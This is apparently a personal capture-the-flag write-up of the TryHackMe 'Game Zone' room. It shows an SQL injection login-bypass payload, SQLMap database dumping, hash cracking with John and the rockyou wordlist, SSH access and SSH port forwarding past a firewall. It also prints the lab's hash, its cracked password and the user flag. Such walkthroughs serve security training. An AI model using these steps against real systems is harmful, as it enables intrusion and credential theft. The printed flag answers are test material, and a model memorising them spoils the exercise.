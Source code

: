 [TryHackMe \| Game Zone](https://tryhackme.com/room/gamezone)

Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

---
Let begin with an Nmap scan to start this penetration test of
```
nmap -p- -T5 ip_address
```

While that runs, i checked the ip address in a browser to see if there is a webserver running, and there is in fact on running on port 80 and i see that there is an ssh on port 22
![[Pasted image 20251020191653.png]]

# Webserver Port 80
![[Pasted image 20251020191719.png]]

Seems to be a game themed webpage of the game Hitman, and the first question asks for the name of the character displayed 

Since i have played this game a lot, i already know the name of this character

***Task 1 Answer: Agent 47***

---
# Understanding SQL

so basically SQL is the language used to communicate to the SQL databases which most of webserver utilized to store their data on.

## Basic SQL Queries
```
SELECT * FROM users WHERE username = :username AND password := password
```

Tryhackme explain that if we input our username and password in the credential field on the website and it utilizes the above SQL query then that itself is a vulnerability which can be exploited

## Exploiting SQL using SQL Injection (Basic)

```sql
' or 1=1 -- - 
```

If we have our username as admin and our password as: ' or 1=1 -- - it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

![[Pasted image 20251020192501.png]]
We gain access and authenticate once we hit enter 
![[Pasted image 20251020192528.png]]

***We get redirected to the portal.php***

---
# Using SQLMap

This is an automatic SQL Injection and Database Takeover tool, it can be downloaded [GitHub - sqlmapproject/sqlmap: Automatic SQL injection and database takeover tool](https://github.com/sqlmapproject/sqlmap)
and comes preinstall on kali linux

1. We need to point the SQLMap tool to a input field 
2. We need to intercept the request with BurpSuite

![[Pasted image 20251020193317.png]]

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.
![[Pasted image 20251020193413.png]]

- -r uses the intercepted request you saved earlier
- --dbms tells SQLMap what type of database management system it is
- --dump attempts to outputs the entire database

![[Pasted image 20251020193516.png]]

After SQLMAP Finishes 
![[Pasted image 20251020195149.png]]

## In the users table, what is the hashed password?
```
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 
```

## What was the username associated with the hashed password?
```

```

## What was the other table name?
```
post
```

---
# Cracking Password with JohnTheRipper

John is a powerful opensource tool also installed on kali Linux, with the ability to crack hashes, similar to hashcat

```bash
john hash.txt --wordlists=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![[Pasted image 20251020195754.png]]

The plaintext password is: videogamer124 

---
# Gaining Access via SSH

We now have a username and password, lets try and login to the SSH port service we identified earlier using the below command
```
ssh agent47@ip_address
```

![[Pasted image 20251020200137.png]]

***What is the user flag? 649ac17b1480ac13ef1e4fa579dac95c***

---
# Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Going to localhost:9000 on your machine, will load imgur traffic using your other server.

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

## Using ss to investigate sockets running on a host
We will use a tool called ss to investigate sockets running on a host.

If we run ss -tulpn it will tell us what socket connections are running
```
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q          Local Address:Port                         Peer Address:Port              
udp    UNCONN     0      0                           *:68                                      *:*                  
udp    UNCONN     0      0                           *:10000                                   *:*                  
tcp    LISTEN     0      80                  127.0.0.1:3306                                    *:*                  
tcp    LISTEN     0      128                         *:10000                                   *:*                  
tcp    LISTEN     0      128                         *:22                                      *:*                  
tcp    LISTEN     0      128                        :::80                                     :::*                  
tcp    LISTEN     0      128                        :::22                                     :::*
```

## Viewing a blocked service using port forward
```
ssh -L 10000:localhost:10000 <username>@<ip>
```

We have notice in the IP tables above that the port 1000 is blocked by a firewall, we can then forward this traffic to our server that we own


